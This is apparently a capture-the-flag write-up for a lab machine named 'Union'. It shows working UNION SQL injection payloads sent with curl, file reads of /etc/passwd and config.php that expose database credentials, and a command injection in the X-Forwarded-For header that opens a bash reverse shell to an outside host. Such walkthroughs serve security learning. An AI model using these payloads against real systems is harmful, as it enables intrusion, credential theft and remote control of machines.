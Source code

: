 # Union

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.75
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:22 EDT
Nmap scan report for 10.129.96.75
Host is up (0.0088s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

The name implies I should be looking for some type of UNION SQL Injection somewhere...

### UNION Injection

This reveals a simple website that takes one user input:

<figure><img src="../../../.gitbook/assets/image (4) (3) (4).png" alt=""><figcaption></figcaption></figure>

If we enter anything, it says that we are eligible to compete in the tournament and gives us a link to `challenge.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (645).png" alt=""><figcaption></figcaption></figure>

Since this was a UHC box, `sqlmap` revealed nothing to me, so we have to do this manually. I tried some basic SQL Injection with UNION, and found that it was indeed vulnerable to SQL Injection:

```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select user(); -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

So now we need to enumerate the database and grab the flag.:

{% code overflow="wrap" %}
```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(schema_name) from information_schema.schemata; -- -"
mysql,information_schema,performance_schema,sys,november

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(table_name) from information_schema.tables WHERE table_schema='november'; -- -"
flag,players

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(column_name) from information_schema.columns WHERE table_schema='november'; -- -"
one,player

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(one) from flag; -- -"
UHC{F1rst_5tep_2_Qualify}
```
{% endcode %}

Once we submit the flag, we have SSH access, but we still have no password.

<figure><img src="../../../.gitbook/assets/image (620) (1).png" alt=""><figcaption></figcaption></figure>

### SSH Creds

Since we still had UNION injection, we can use the `load_file` function to have LFI.&#x20;

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/etc/passwd'); -- -"
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<TRUNCATED>
```

First we need to identify what files are present on the site. I know that it is PHP-based, so let's start there.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.75 -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.75
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/05/08 11:38:12 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/firewall.php         (Status: 200) [Size: 13]
/index.php            (Status: 200) [Size: 1220]
/index.php            (Status: 200) [Size: 1220]
```

There's a `config.php` file, and we can read that:

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/var/www/html/config.php'); -- -"
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

With that, we can SSH into the machine.

<figure><img src="../../../.gitbook/assets/image (646).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Command Injection --> Sudo

There's another user on the machine:

```
uhc@union:/home$ ls -la
total 16
drwxr-xr-x 1 root root  12 Nov  8  2021 .
drwxr-xr-x 1 root root 164 Jul  2  2021 ..
drwxr-xr-x 1 htb  htb  158 Nov  8  2021 htb
drwxr-xr-x 1 uhc  uhc  108 Nov  8  2021 uhc
```

There isn't much that this user can access. So let's view the website files. The `firewall.php` file is the one that provided us with access to SSH, and it has some vulnerable code:

```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

```

This uses the `X-Forwarded-For` HTTP header variable and passes it directly into a command with `sudo`. Using this request, we can get another reverse shell as `www-data`.

```http
GET /firewall.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.96.75/challenge.php
Connection: close
X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1";
Cookie: PHPSESSID=jg4bjv3vg5pol32mv1teq3i0pp
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

When checking our `sudo` privileges, this is what we see:

```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

<figure><img src="../../../.gitbook/assets/image (622) (1).png" alt=""><figcaption></figcaption></figure>
